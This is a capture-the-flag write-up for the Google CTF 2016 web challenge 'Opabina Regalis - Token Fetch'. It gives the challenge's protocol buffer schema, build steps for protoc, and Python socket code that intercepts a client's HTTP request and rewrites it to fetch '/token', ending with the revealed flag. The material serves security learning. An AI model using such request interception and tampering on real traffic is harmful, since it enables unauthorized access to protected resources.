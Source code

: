 # Google CTF 2016 : Opabina Regalis - Token Fetch

**Category:** Web
**Points:** 50
**Solves:** 79
**Description:**


>
>There are a variety of client side machines that have access to certain websites we'd like to access. We have a system in place, called "Opabina Regalis" where we can intercept and modify HTTP requests on the fly. Can you implement some attacks to gain access to those websites?
>
>Opabina Regalis makes use of [Protocol Buffers](https://developers.google.com/protocol-buffers/) to send a short snippet of the HTTP request for modification.
>
>Here's the protocol buffer definition used:
>
>
>     package main;
>
>     message Exchange {
>
>        enum VerbType {
>                GET = 0;
>                POST = 1;
>        }
>
>        message Header {
>                required string key = 1;
>                required string value = 2;
>        }
>
>        message Request {
>                required VerbType ver = 1; // GET
>                required string uri = 2; // /blah
>                repeated Header headers = 3; // Accept-Encoding: blah
>                optional bytes body = 4;
>        }
>
>        message Reply {
>                required int32 status = 1; // 200 or 302
>                repeated Header headers = 2;
>                optional bytes body = 3;
>        }
>
>        oneof type {
>                Request request = 1;
>                Reply reply = 2;
>        }
>     }
>

>The network protocol uses a 32-bit little endian integer representing the length of the marshalled protocol buffer, followed by the marshalled protocol buffer.
>
>Listening on port 1876 on ssl-added-and-removed-here.ctfcompetition.com
>


## Write-up

In order to solve this problem, I had to learn a little bit about Protocol buffer.  I started by reading the documentation that was linked in the challenge description.  It looks like Google supports a few different languages, so I decided to go with Python.  But first I had to install the protocol buffer compiler (protoc).


Download the protocl buffer project
```
$ git clone https://github.com/google/protobuf.git
```


Compile and install (from [Google's Git Documentaion](https://github.com/google/protobuf/tree/master/src))
```
$ cd ./protobuf/
$ ./autogen.sh
$ ./configure
$ make
$ make check
$ sudo make install
$ sudo ldconfig # refresh shared library cache.
```

Google has provided the contents of our message file in the challenge description, simply save it as main.proto.

Now that the protocol buffer compiler has been installed and we have our main.proto file created, it is time to run the compiler.
```
$ protoc -I=./ --python_out=./ main.proto
```

Wow, I am finally ready to start writing code.  I can create an empty Exchange message protocol buffer with the following snippet:
```python
import main_pb2
msg = main_pb2.Exchange()
```

Once I verified that I could import main_pb2, I setup the TCP/SSL socket as such:
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
ws = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_SSLv23)
```

This is the code I wrote for reading from the socket, careful to obey the requirement for 32bit little-endian integers.
```python
def rx_msg(sock):
  data = sock.recv(4)
  
  #Unpack the message length
  msg_len = struct.unpack('<I', data)[0]
  data = sock.recv(msg_len)
  
  #Read the protocol buffer message
  msg = main_pb2.Exchange()
  msg.ParseFromString(data)
```

And the code for writing to the socket.
```python
def tx_msg(sock, msg):
  p = pack_msg(msg.SerializeToString())
  sock.send(p)
```

And add some simple code to print the request so that I can easily see what is happening.
```python
def print_req(req):
  print('VerbType: ' + repr(req.ver))
  print('URI: ' + repr(req.uri))
  print('Headers:')
  for i in req.headers:
  	print(repr(i))
  print('Body: ' + repr(req.body))
```

I should be all set, let's connect to the socket and see if I get a request.
```
VerbType: 0
URI: u'/not-token'
Headers:
key: "User-Agent"
value: "opabina-regalis.go"
```

Hmm...  Looks like someone is trying to connect to '/not-token'.  What if I create a new request for '/token'
```python
new_dat = main_pb2.Exchange()
new_dat.request.ver = main_pb2.Exchange.GET
new_dat.request.uri = u'/token'
new_dat.request.body = ''
tx_msg(ws, new_dat)
```

Now let's see what the whole script output looks like.
```
VerbType: 0
URI: u'/not-token'
Headers:
key: "User-Agent"
value: "opabina-regalis.go"

Body: ''
Status: 200
Headers:
key: "Server"
value: "opabina-regalis.go"

Body: 'CTF{WhyDidTheTomatoBlush...ItSawTheSaladDressing}'
```
